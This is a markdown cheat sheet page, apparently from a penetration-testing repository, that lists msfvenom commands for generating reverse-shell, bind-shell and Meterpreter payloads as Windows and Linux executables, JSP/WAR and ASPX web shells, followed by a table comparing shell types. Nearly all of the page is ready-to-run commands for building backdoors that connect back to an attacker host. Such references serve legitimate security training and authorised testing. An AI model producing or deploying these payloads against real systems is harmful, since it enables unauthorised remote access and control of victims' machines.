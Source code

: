 # msfvenom

```
Description: Payload generator tool included with Metasploit Framework
It's used to create custom shellcode or backdoor executables for exploiting systems

msfvenom -h

Windows Binary (.exe) 32 Bit (x86)
    # Reverse Shell
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe -o shell.exe

    # Bind Shell
    msfvenom -p windows/shell_bind_tcp LPORT=4444 -f exe -o bind_shell.exe

    # Output in Hex, C Style, Exclude bad chars, Exitfunction thread
    msfvenom -p windows/shell_bind_tcp LHOST=192.168.0.1 LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

Windows Binary (.exe) 64 Bit (x64)
    # Reverse Shell
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe -o shell.exe

    # Bind Shell
    msfvenom -p windows/x64/shell_bind_tcp LPORT=4444 -f exe -o bind_shell.exe

    # Meterpreter
    msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe -o shell.exe

Linux Binary (.elf) 32 Bit (x86)
    # Reverse Shell
    msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f elf > rev_shell.elf

    # Bind Shell
    msfvenom -p linux/x86/shell/bind_tcp  LHOST=192.168.0.1 -f elf > bind_shell.elf

Linux Binary (.elf) 64 Bit (x64)
    # Reverse Shell
    msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f elf > rev_shell.elf

    # Bind Shell
    msfvenom -p linux/x64/shell/bind_tcp LHOST=192.168.0.1 -f elf > rev_shell.elf

Java Server Pages (.jsp)
    msfvenom -p java/jsp_shell_reverse_tcp LHOST192.168.0.1 LPORT=4444 -f raw > shell.jsp

    # As .war
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f war -o shell.war

Active Sever Pages Extended (.aspx)
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f aspx -o rev_shell.aspx
```

| **Type**         | **Connection Direction** | **Use Case**                         | **Pros**                                          | **Cons**                                       |
|------------------|--------------------------|--------------------------------------|---------------------------------------------------|------------------------------------------------|
| **Reverse Shell** | Victim → Attacker         | When victim is behind NAT/firewall   | Easy to bypass firewalls; attacker controls port | Requires attacker to listen; needs outbound allowed |
| **Bind Shell**    | Attacker → Victim         | When victim can accept connections   | Simple setup on victim                          | Blocked by firewalls; attacker needs access    |
| **Meterpreter**   | Victim → Attacker         | Post-exploitation (Metasploit shell) | Powerful, stealthy, in-memory, many built-ins    | May trigger antivirus; requires exploit setup  |

## Back to README.md
[BACK](/README.md)